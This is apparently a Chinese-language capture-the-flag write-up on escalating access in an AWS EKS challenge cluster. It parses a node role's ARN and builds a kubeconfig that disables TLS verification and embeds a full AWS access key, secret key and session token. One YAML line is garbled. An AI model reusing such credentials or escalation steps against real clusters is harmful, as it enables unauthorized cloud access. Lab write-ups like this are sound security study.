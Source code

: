 这里的 [ARN](https://docs.aws.amazon.com/zh_tw/IAM/latest/UserGuide/reference-arns.html) 可以获知到不少信息

```bash
arn:partition:service:region:account-id:resource-type/resource-id
arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282

partition: aws
service: sts
region:
account-id: 688655246681
resource-type: assumed-role
resource-id: eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282

cluster-name: eks-challenge-cluster
```

检查一下 aws eks 指令下面需要的东西还有能做的事

1. 查询 [AWS eks cli 文档](https://docs.aws.amazon.com/cli/latest/reference/eks/)
2. 我们的目的是升级 kubectl 交互的权限，可以找到文章 [Hacktricks-Cloud EKS 后利用](https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-post-exploitation/aws-eks-post-exploitation)

### method 1 update kubeconfig

这里看起来需要处理一下 kubeconfig 了

整理一下

``` yaml
describe-cache-parametersapiVersion: v1
clusters:
  - cluster:
      insecure-skip-tls-verify: true
      server: https://10.100.0.1
    name: arn:aws:eks:us-west-1:688655246681:cluster/eks-challenge-cluster
contexts:
  - context:
      cluster: arn:aws:eks:us-west-1:688655246681:cluster/eks-challenge-cluster
      user: arn:aws:eks:us-west-1:688655246681:cluster/eks-challenge-cluster
    name: arn:aws:eks:us-west-1:688655246681:cluster/eks-challenge-cluster
current-context: arn:aws:eks:us-west-1:688655246681:cluster/eks-challenge-cluster
kind: Config
preferences: {}
users:
  - name: arn:aws:eks:us-west-1:688655246681:cluster/eks-challenge-cluster
    user:
      exec:
        apiVersion: client.authentication.k8s.io/v1beta1
        args:
          - --region
          - us-west-2
          - eks
          - get-token
          - --cluster-name
          - eks-challenge-cluster
        command: aws
        env:
          - name: AWS_ACCESS_KEY_ID
            value: ASIA2AVYNEVMR5BQAJIY
          - name: AWS_SECRET_ACCESS_KEY
            value: eI2Wc1KGCP+7wePJKgHYeM7iqkR0ojLjlsR5cNHm
          - name: AWS_SESSION_TOKEN
            value: FwoGZXIvYXdzEDoaDBNUSCM4abbuuVepLyK3AYzIOalPXv44GzNtt2zYb4ukzwkyPMhA2hI2nCuuLJW4+ENOXqdBgJChbyirWoclfV9bGFkcFxFaslXw6Pf405KRk8blXx/iqmQCuGIGXAZomAsp8y6DtVMJ8T7nRKytFcMplBG4N5XWsM8VF8XfVXwskyKn6X37LxUSiqbI4lNRt/OWcxe4lD3MwZODuvUQvm9GhuUHxZi4IiYE2Hkt3HsGKiNM/GCXaMU1nCapjPufufumNx464Cj055mqBjIt+KQHLUq4AsMMmE0baixd2L9DAVhsECSYlx+uhDbEnjYuumPJVyVjfl5YlK0z
```